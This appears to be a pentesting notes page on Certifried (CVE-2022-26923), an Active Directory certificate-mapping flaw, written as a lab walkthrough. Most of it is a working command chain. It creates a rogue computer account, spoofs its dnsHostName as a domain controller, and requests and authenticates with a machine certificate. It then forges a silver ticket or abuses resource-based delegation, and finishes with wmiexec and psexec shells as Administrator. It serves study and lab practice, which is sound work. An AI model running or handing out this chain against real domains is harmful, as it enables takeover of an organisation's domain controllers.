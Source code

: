 # Certifried

> ***Certifried (CVE-2022-26923)***

------

This vulnerability is based manipulating **certificate mapping** when creating a computer account. Certificate mapping relied on `dNSHostName` attribute of a computer account. So when a computer requested a certificate, it trusted that `dNSHostName` as its identity.

**Exploit by**

1. Clear the SPN linked to computer account
2. Modify the `dNSHostName` to impersonate other machine.
3. Request a certificate using Machine template.

### Abuse

Check if CA is patched

```sh
certipy req -u 'BlWasp@lab.local' -p 'Password123!' -ca lab-LAB-DC-CA -dc-ip 10.129.228.237 -template User
```

Add computer which dnsHostName should match DCs.

```sh
addcomputer.py -computer-name 'CERTIFRIED$' -computer-pass 'Password123!' -dc-ip 10.129.228.134 'LAB.LOCAL/Blwasp':'Password123!'
```

Enumerate and check DNS names

```sh
certipy find -u 'BlWasp@lab.local' -p 'Password123!' -stdout -vulnerable
```

Edit dnsHostName with powerview

```bash
powerview lab.local/BlWasp:'Password123!'@10.129.228.237 
Logging directory is set to /home/mczen/.powerview/logs/lab-blwasp-10.129.228.237
[2025-01-31 18:51:15] [Storage] Using cache directory: /home/mczen/.powerview/storage/ldap_cache
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]

Set-DomainObject -Identity 'CERTIFRIED$' -Set dnsHostName="dc02.lab.local"
[2025-01-31 18:51:33] [Set-DomainObject] Success! modified attribute dnshostname for CN=CERTIFRIED,CN=Computers,DC=lab,DC=local
(LDAPS)-[DC02.lab.local]-[LAB-DC\blwasp]
```

Request certificate and impersonate DC

```shell-session
certipy req -u 'CERTIFRIED$' -p 'Password123!' -dc-ip 10.129.228.134 -ca lab-LAB-DC-CA -template 'Machine'
```

Authenticate

```sh
certipy auth -pfx dc02.pfx
```

Proceed for silver ticket, get SID

```sh
nxc ldap 10.129.228.237 -u dc02$ -H cdd3cf40d6d5bee74013db1c26f58ee1 --get-sid
```

Get silver ticket

```sh
ticketer.py -nthash db35f9cf2e343f0795d33aef721a8f9a -domain-sid S-1-5-21-2810262047-4248699891-1002428937 -domain lab.local -spn cifs/dc02.lab.local Administrator
```

### Alternate Method

```shell
certipy auth -pfx dc02.pfx -dc-ip 10.129.228.237 -ldap-shell
```

In ldap shell

```sh
add_computer ESC1 E$C1
set_rbcd DC02$ ESC1$
exit
```

Request CIFS ticket

```shell
getST.py -spn cifs/dc02.lab.local -impersonate Administrator -dc-ip 10.129.228.237 'lab.local/esc1$:E$C1'
```

Then connect

```sh
# WMI
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache wmiexec.py -k -no-pass dc02.lab.local  

# PSEXEC
KRB5CCNAME=Administrator@cifs_dc02.lab.local@LAB.LOCAL.ccache psexec.py -k -no-pass dc02.lab.local
```
